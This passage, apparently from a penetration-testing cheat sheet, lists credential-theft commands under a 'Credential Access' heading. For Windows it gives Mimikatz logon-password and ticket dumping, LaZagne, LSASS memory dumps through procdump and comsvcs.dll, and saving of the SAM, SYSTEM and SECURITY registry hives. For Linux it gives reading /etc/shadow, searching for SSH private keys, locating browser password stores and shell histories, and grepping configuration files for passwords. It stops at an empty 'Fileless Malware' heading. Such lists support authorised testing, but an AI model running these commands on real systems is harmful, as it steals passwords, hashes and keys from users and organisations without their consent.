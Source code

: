 ## Credential Access

### Windows Credentials

```powershell
# Mimikatz
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
sekurlsa::tickets
lsadump::sam
lsadump::secrets

# LaZagne (multi-platform password recovery)
laZagne.exe all

# Dump LSASS
procdump.exe -ma lsass.exe lsass.dmp
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <LSASS_PID> lsass.dmp full

# Registry hives
reg save HKLM\SAM sam.hive
reg save HKLM\SYSTEM system.hive
reg save HKLM\SECURITY security.hive
```

### Linux Credentials

```bash
# /etc/shadow (requires root)
cat /etc/shadow

# SSH keys
find / -name "id_rsa" 2>/dev/null
find / -name "id_dsa" 2>/dev/null

# Browser passwords
# Firefox: ~/.mozilla/firefox/*/logins.json
# Chrome: ~/.config/google-chrome/Default/Login Data

# History files
cat ~/.bash_history
cat ~/.zsh_history
cat ~/.mysql_history

# Configuration files
grep -r "password" /home/*/.config 2>/dev/null
grep -r "pass" /var/www/html/*.php 2>/dev/null
```

## Fileless Malware
